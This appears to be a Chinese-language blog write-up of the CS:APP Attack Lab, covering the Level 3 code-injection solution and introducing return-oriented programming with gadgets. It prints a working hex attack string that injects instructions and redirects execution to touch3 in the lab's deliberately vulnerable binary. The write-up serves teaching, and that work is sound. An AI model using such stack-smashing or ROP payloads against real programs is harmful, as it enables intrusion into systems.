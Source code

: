 ``` asm
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  .
  .
  .
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
```
``` asm
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
```
因为 `rdi` 指向栈中字符串的位置，然而 `touch3` 和 `hexmatch` 都对栈进行了 `push` 操作，为了不让这两个函数对栈中字符串进行修改，必须让字符串的地址比栈指针高。

攻击字符串为：(写入文本中时记得把注释给去掉)
``` txt
48 c7 c7 90 dc 61 55 48 
c7 c4 88 dc 61 55 c3 00 # mov $0x5561dc90,%rdi mov $0x5561dc88,%rsp ret
fa 18 40 00 00 00 00 00 # touch3 地址
35 39 62 39 39 37 66 61 # 目标字符串的 ASCII
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # 注入指令首地址
```
![](2022-4-9/2022-4-9_4.png)

## Part 2: 面向返回编程攻击

在这一部分中需要使用另一种攻击方式重新解决 Level 2 和 Level 3，这是因为使用第一种攻击方式已经无效了：
> 1. 使用随机化，每次运行时的堆栈位置不同，所以无法确定攻击代码的位置
> 2. 堆栈不可执行，执行堆栈中的指令会报 Segmentation Fault

所以现在我们需要利用栈中本来存放的指令。举个例子：
``` C
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```
``` asm
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```
`48 89 c7` 又可以表示 `movq %rax, %rdi`，`c3` 表示 `ret`，以 `c3` 为结尾的指令被称为 `gadget`，程序中为我们定义了一系列的 `gadget`，叫做 `gadget_farm`，存在于 `start_farm` 与 `end_farm` 之间，我们只能通过这里面的指令来实现我们的攻击。